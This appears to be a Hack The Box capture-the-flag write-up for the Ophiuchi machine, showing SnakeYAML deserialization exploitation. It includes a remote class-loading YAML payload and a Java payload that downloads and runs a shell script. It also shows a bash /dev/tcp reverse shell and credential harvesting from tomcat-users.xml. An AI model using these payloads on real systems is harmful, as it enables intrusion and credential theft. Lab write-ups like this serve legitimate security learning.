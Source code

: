 # Enumeration-
![[Pasted image 20210620160113.png]]

### Just simply looking for an exploit on google we came up with this post -
### [Snake_Yaml_Deserialization](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
### Following the post -
# Exploitation-

### 1. Trying to ping our local machine-

```bash
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

![[Pasted image 20210620161449.png]]

### 2. Netcat-
We got connection back-
```bash
root@napster:~/Documents/HTB/Ophiuchi# nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.227] 54908
HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1
User-Agent: Java/11.0.8
Host: 10.10.14.20
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

### 3. Payload-

### Downloadthe [payload](https://github.com/artsploit/yaml-payload) 
### Edit the java file to  get a reverse shell-
### `nano src/artsploit/AwesomeScriptEngineFactory.java` 
```
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.20/shell.sh -o /tmp/shell.sh");
            Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

### Create reverse shell file shell.sh-
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.20/9001 0>&1'
```

### Compile to get jar file-
```bash
root@napster:~/Documents/HTB/Ophiuchi/yaml-payload# javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
root@napster:~/Documents/HTB/Ophiuchi/yaml-payload# jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 410)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1666) (out= 697)(deflated 58%)
root@napster:~/Documents/HTB/Ophiuchi/yaml-payload# ls
README.md  src  yaml-payload.jar
```

### Start your python server and execute the jar file from the webpage-

![[Pasted image 20210620181530.png]]

# Reverse Shell-

![[Pasted image 20210620181846.png]]

```bash
tomcat@ophiuchi:~/conf$ pwd
pwd
/opt/tomcat/conf
tomcat@ophiuchi:~/conf$ ls -la
ls -la
total 240
drwxr-x--- 2 root tomcat   4096 Dec 28 00:37 .
drwxr-xr-x 9 root tomcat   4096 Oct 11  2020 ..
-rw-r----- 1 root tomcat  12873 Sep 10  2020 catalina.policy
-rw-r----- 1 root tomcat   7262 Sep 10  2020 catalina.properties
-rw-r----- 1 root tomcat   1400 Sep 10  2020 context.xml
-rw-r----- 1 root tomcat   1149 Sep 10  2020 jaspic-providers.xml
-rw-r----- 1 root tomcat   2313 Sep 10  2020 jaspic-providers.xsd
-rw-r----- 1 root tomcat   4144 Sep 10  2020 logging.properties
-rw-r----- 1 root tomcat   7588 Sep 10  2020 server.xml
-rw-r----- 1 root tomcat   2234 Dec 28 00:37 tomcat-users.xml
-rw-r----- 1 root tomcat   2558 Sep 10  2020 tomcat-users.xsd
-rw-r----- 1 root tomcat 172359 Sep 10  2020 web.xml
tomcat@ophiuchi:~/conf$ cat tomcat-users.xml | grep pass
cat tomcat-users.xml | grep pass
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
  you must define such a user - the username and password are arbitrary. It is
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
```

### Username-admin
### Password-whythereisalimit

# Login via SSH & User.txt-

```bash
root@napster:~/Documents/HTB/Ophiuchi/yaml-payload# ssh admin@10.10.10.227
The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
admin@10.10.10.227's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
<SNIP>
admin@ophiuchi:~$ ls -la
total 36
drwxr-xr-x 5 admin admin 4096 Jun 20 19:50 .
drwxr-xr-x 3 root  root  4096 Dec 28 00:18 ..
lrwxrwxrwx 1 root  root     9 Dec 28 00:51 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Dec 28 00:18 .bash_logout
-rw-r--r-- 1 admin admin 3771 Dec 28 00:18 .bashrc
drwx------ 2 admin admin 4096 Dec 28 00:35 .cache
drwx------ 4 admin admin 4096 Jan  6 08:31 .gnupg
drwxrwxr-x 3 admin admin 4096 Jun 20 19:50 .local
-rw-r--r-- 1 admin admin  807 Dec 28 00:18 .profile
-rw-r--r-- 1 admin admin    0 Jan  7 09:18 .sudo_as_admin_successful
-r-------- 1 admin admin   33 Jun 20 19:46 user.txt
lrwxrwxrwx 1 root  root     9 Jan  7 09:11 .viminfo -> /dev/null
admin@ophiuchi:~$ cat user.txt 
505a54792a1e0ff3d62409926d045299
```